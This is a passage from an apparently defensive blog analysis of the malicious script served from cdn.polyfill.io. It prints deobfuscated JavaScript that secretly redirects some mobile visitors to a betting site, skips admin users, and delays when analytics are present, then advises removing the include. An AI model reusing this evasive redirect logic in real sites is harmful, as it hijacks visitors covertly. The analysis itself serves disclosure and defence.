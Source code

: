 ``` js
        (referrer.includes('.') && !referrer.includes(host))) {
      redirectUrl = redirectBaseUrl;
    } else if (currentHour >= 0 && currentHour < 2 && Math.random() * 100 + 1 <= 10) {
      redirectUrl = redirectBaseUrl;
    } else if (currentHour >= 2 && currentHour < 4 && Math.random() * 100 + 1 <= 15) {
      redirectUrl = redirectBaseUrl;
    } else if (currentHour >= 4 && currentHour < 7 && Math.random() * 100 + 1 <= 20) {
      redirectUrl = redirectBaseUrl;
    } else if (currentHour >= 7 && currentHour < 8 && Math.random() * 100 + 1 <= 10) {
      redirectUrl = redirectBaseUrl;
    } else if (currentHour >= 8 && Math.random() * 100 + 1 <= 10) {
      redirectUrl = redirectBaseUrl;
    }

    if (redirectUrl && !isPc() && !document.cookie.includes('admin_id') && !document.cookie.includes('adminlevels')) {
      vfed_update(redirectUrl);
    }
  }
}

// Check for certain analytics tools in the document and trigger redirection logic accordingly
const htmlContent = document.documentElement.outerHTML;
const analyticsTools = ['hm.baidu.com', '.cnzz.com', '.51.la', '.matomo.org', '.google-analytics.com', '.googletagmanager.com', '.plausible.io', '.statcounter.com'];
const analyticsFound = analyticsTools.some(tool => htmlContent.includes(tool));

if (analyticsFound) {
  setTimeout(check_tiaozhuan, 2000);
} else {
  check_tiaozhuan();
}
```

The function name is `check_tiaozhuan`, and `tiaozhuan` is a Chinese pinyin which means "redirection".

In conclusion, after performing various checks, it will eventually redirect you to a Vietnamese website, seemingly related to sports betting.

Therefore, if your website includes code from `cdn.polyfill.io`, please remove it immediately. Otherwise, some users might be inexplicably redirected to other websites. Also, I cannot guarantee the accuracy of the deobfuscated and ChatGPT-reconstructed results. With the ability to execute JavaScript for a supply chain attack, it can do much more. If someone tells me they can steal cookies or localStorage, I would believe them (although I haven't seen it in the current code).

## How to Defend in the Future?

Let me clarify first that the security issue is not the fault of the polyfill service itself; it is innocent. If you want to continue using it, you can host your own version, which is completely fine. The problem lies in "including malicious JavaScript from the domain cdn.polyfill.io."
